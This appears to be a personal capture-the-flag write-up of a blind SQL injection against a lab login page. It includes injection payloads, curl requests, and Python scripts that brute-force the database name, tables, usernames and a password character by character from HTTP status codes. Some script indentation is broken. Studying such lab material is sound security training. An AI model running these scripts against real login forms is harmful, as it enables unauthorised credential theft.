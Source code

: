 
On trying the sql injection query from  https://github.com/payloadbox/sql-injection-payload-list


```
' OR 1 -- -
```

![[Pasted image 20240212001144.png]]

On fuzzing the payload works with,
![[Pasted image 20240212001618.png]]

```
admin'  AND 1=1-- 
```


we have the extra space... .

when requested from repeater, we are getting 302 for the same payload
![[Pasted image 20240212002655.png]]

When trying with the other username we are getting 200 which actually dosnt lead to any where.

![[Pasted image 20240212003351.png]]

So we can conclude that 302 is a positive resp but 200 is not. 

In burp we need to change the cookie value for the different req, which gives a prev sec we know the admin creds with the cookie reuse possibility. 

Using curl for the recursive req

Original taken from Burp
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.19.115' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 40' -H $'Origin: http://10.10.19.115' -H $'Connection: close' -H $'Referer: http://10.10.19.115/index.php' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=2c53oqrpln03phqr0teenbvjmBV' \
    --data-binary $'username=test1%27+AND+1%3D1--+&password=' \
    $'http://10.10.19.115/index.php'


updated curl req

`curl 'http://10.10.19.115/index.php/' -X POST -d "username=test1%27+AND+1%3D1--+&password=" -s -w "%{http_code}" -o /dev/null`

![[Pasted image 20240212004041.png]]

And the query works is, mind the white space
`admin' ORDER BY 1 -- `

On manually brute forcing, we get there are 5 columns,
```bash
curl 'http://10.10.19.115/index.php/' -X POST -d "username=admin%27+ORDER+BY+4--+&password=" -s -w "%{http_code}" -o /dev/null
```


![[Pasted image 20240212005100.png]]


After multiple attempts to find the db name using the like and union query formats, we landed up with,
```bash
curl 'http://10.10.19.115/index.php/' -X POST -d "username=%27+UNION+SELECT+1,2,3,4+WHERE+database()+LIKE+'m%'--+&password=" -s -w "%{http_code}" -o /dev/null

```
![[Pasted image 20240212010424.png]]



Now we can seemingly write a script for this to automate?
```python
import requests

res = ""

chars_list = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-/:~$^ "

ip = "10.10.19.115"

while True:
	for i in chars_list:
		body= {"username":f"' UNION SELECT 1,2,3,4 WHERE database() LIKE '{res+i}%'-- ","password":""}
		response = requests.post(f"http://{ip}/index.php", data=body,allow_redirects=False)
		status_code=response.status_code
		if status_code == 302:
			res = res+i
			print(f"in progress ==> {res}")
			break
		elif i == " " :
			print(f" final ==> {res}")
			exit()
```

![[Pasted image 20240212012934.png]]


updating the payload query to get the users... 
```
' UNION SELECT 1,2,3,4 WHERE database() LIKE '{res+i}%'--
```

```python
import requests

res = ""

chars_list = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-/:~$^ "

ip = "10.10.19.115"

while True:

	for i in chars_list:
	
		body= {"username":f"' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = database() AND table_name LIKE '{res+i}%' -- ","password":""}
		
		response = requests.post(f"http://{ip}/index.php", data=body,allow_redirects=False)
		
		status_code=response.status_code
		
		if status_code == 302:
		
			res = res+i
			
			print(f"in progress ==> {res}")
			
			break
			
		elif i == " " :
		
			print(f" final ==> {res}")
			
			exit()
	```
![[Pasted image 20240212013401.png]]

updated query to find the usernames, 
```
' UNION SELECT 1,2,3,4 FROM siteusers WHERE username LIKE '{res+i}%' --
```

```python
import requests

res = ""

chars_list = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-/:~$^ "

ip = "10.10.19.115"

users = set()

while True:

	for idx, i in enumerate(chars_list):
	
		if "admin" in users and idx == 0 and i == "a":
		
		continue
		
		body= {"username":f"' UNION SELECT 1,2,3,4 FROM siteusers WHERE username LIKE '{res+i}%' -- ","password":""}
		
		response = requests.post(f"http://{ip}/index.php", data=body,allow_redirects=False)
		
		status_code=response.status_code
		
		if status_code == 302:
		
			res = res+i
			
			print(f"in progress ==> {res}")
			
			break
			
		elif i == " ":
		
			print(f" final ==> {res}")
			
			if res == "admin":
			
			users.add(res)
			
			  
			
			# exit()
			
			res = ""
```

![[Pasted image 20240212014630.png]]

so after a non-optimal user bruteforcing we got the user name kitty

now brute forcing for password. 
```
' UNION SELECT 1,2,3,4 FROM siteusers WHERE username='kitty' AND password LIKE '{res+i}%' -- 
```

```python
import requests

res = ""

chars_list = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-/:~$^ "

ip = "10.10.19.115"

while True:

	for i in chars_list:
	
		body= {"username":f"' UNION SELECT 1,2,3,4 FROM siteusers WHERE username='kitty' AND password LIKE '{res+i}%' -- ","password":""}
		
		response = requests.post(f"http://{ip}/index.php", data=body,allow_redirects=False)
		
		status_code=response.status_code
		
		if status_code == 302:
		
			res = res+i
			
			print(f"in progress ==> {res}")
			
			break
			
		elif i == " " :
			
			print(f" final ==> {res}")
			
			exit()
```

![[Pasted image 20240212015231.png]]

But on trying to ssh, it fails. 
![[Pasted image 20240212015652.png]]

It could be due to the case insensitive of sql db. 
Lets use binary in the qeury to return us case sensitive results.

```
' UNION SELECT 1,2,3,4 FROM siteusers WHERE username='kitty' AND password LIKE BINARY '{res+i}%' -- 
```



![[Pasted image 20240212021325.png]]

